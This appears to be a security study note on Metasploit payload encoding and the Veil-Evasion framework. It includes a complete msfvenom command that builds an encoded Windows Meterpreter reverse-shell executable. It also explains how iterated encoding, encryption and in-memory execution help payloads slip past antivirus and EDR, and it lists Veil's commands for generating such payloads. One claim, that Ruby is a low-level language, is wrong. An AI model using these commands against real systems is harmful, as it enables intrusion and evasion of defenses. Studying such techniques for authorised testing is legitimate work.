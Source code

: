 # Payload Encoding

## Metasploit

### Best Encoders

<figure><img src="../../../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../../.gitbook/assets/Screenshot 2025-07-19 201153.png" alt=""><figcaption></figcaption></figure>

### &#x20;Iterations

* When you encode a payload, it transforms the payload’s bytecode to obfuscate it.
* **Running multiple iterations** means the encoder is applied again and again, each time further obfuscating the payload.
* This can help evade signature-based detection because the final encoded payload looks different every time.

| Option         | Description                                 |
| -------------- | ------------------------------------------- |
| `-i <number>`  | Number of times to apply the encoder        |
| Typical values | 1 to 5 (higher values increase obfuscation) |

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > payload.exe
```

### &#x20;Bad Characters

* Some bytes have special meanings in protocols or programming languages, e.g.:
  * Null byte (`\x00`) often terminates strings in C.
  * Newline (`\x0a`) or carriage return (`\x0d`) might break payload formatting.
* Including these bytes in your shellcode can cause it to fail or behave unpredictably

> Basicly we can say what are bad characters to avoid crash

## Veil-Evasion

### 🧪 Techniques Beyond Signature Evasion

Veil uses **multiple layers** to evade modern defenses:

| Technique              | Purpose                                                           |
| ---------------------- | ----------------------------------------------------------------- |
| 🔒 AES/XOR Encryption  | Encrypts payloads to hide from static signature-based AV.         |
| 🧬 Code Obfuscation    | Changes variable names, function calls, and structure.            |
| 🚫 Avoids API Hooks    | Bypasses common AV/EDR API monitoring patterns.                   |
| 🧩 Multiple Languages  | Generates payloads in C, PowerShell, Python → compiled to `.exe`. |
| 🔧 In-Memory Execution | Some payloads avoid touching disk at all.                         |

***

### 🛠️ What Veil Actually Does

Veil is a **payload generation and obfuscation framework**, mainly used for:

| Goal                              | Description                                                                   |
| --------------------------------- | ----------------------------------------------------------------------------- |
| ✅ **Signature Evasion**           | Avoid detection by AVs using obfuscation, encryption, encoding techniques.    |
| ✅ **Custom Payload Generation**   | Generate payloads in Python, C, C#, PowerShell, etc., for flexibility.        |
| ✅ **Post-Exploitation Support**   | Wrap Meterpreter, shellcode, VNC, or other stagers into undetectable formats. |
| ✅ **Shellcode Delivery**          | Supports delivery of custom shellcode (not just Metasploit payloads).         |
| ✅ **File-based Payload Droppers** | Payloads that can drop & execute in-memory (low I/O footprint).               |

***

### Commands

| **Command**          | **Description**                                                            |
| -------------------- | -------------------------------------------------------------------------- |
| `veil`               | Launch the Veil framework                                                  |
| `list`               | Show all available payloads (Python, C, PowerShell, etc.)                  |
| `use <payload/path>` | Select a specific payload to generate (e.g., `python/meterpreter/rev_tcp`) |
| `info`               | Display details about the selected payload                                 |
| `set LHOST <IP>`     | Set your attack machine’s IP address                                       |
| `set LPORT <PORT>`   | Set the port to receive the reverse connection                             |
| `generate`           | Generate the payload (saves to Veil’s output folder)                       |
| `exit`               | Quit the Veil console                                                      |

***

### Metasploit Use the payload created

```bash
set payload <path>
```

{% hint style="warning" %}
Low level languages like C++ , Ruby ,Go are very hard to detect.Unlike python which its not is high level.&#x20;
{% endhint %}

{% embed url="https://www.youtube.com/watch?t=696s&v=iz1twCSJZyo" %}


